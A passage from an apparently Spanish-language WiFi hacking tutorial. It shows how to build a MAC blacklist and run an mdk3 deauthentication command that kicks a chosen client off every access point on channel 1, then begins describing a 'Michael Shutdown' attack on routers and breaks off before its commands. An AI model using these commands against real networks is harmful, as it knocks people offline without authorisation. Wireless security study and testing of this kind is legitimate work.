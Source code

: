 En mi caso voy a indicar la direccion **MAC** **84:4B:F5:48:6C:CF** que es el cliente que quiero expulsar

```bash
❯ nvim blacklist
❯ catn blacklist
84:4B:F5:48:6C:CF
```

Ahora para hacer el ataque simplemente usamos la herramienta `mdk3`

```bash
❯ mdk3 wlan0mon d -w blacklist -c 1

Periodically re-reading blacklist/whitelist every 3 seconds
```

Todos los **AP** que operen en el canal 1 va a estar expulsando a todos los clientes que tengan esa dirección **MAC** que indicamos en el archivo **blacklist**

## Michael Shutdown Exploitation

Este ataque lo que nos permite es apagar un **router** el problema de este ataque es que no es muy efectivo no hay mucha documentación sobre este ataque 

![](/assets/images/hacking-writeup-wifi/d2.png)

Como vemos no hay mucha información sobre este ataque a si que vamos a hacerlo de todas formas para este ataque necesitamos la herramienta `mdk3`
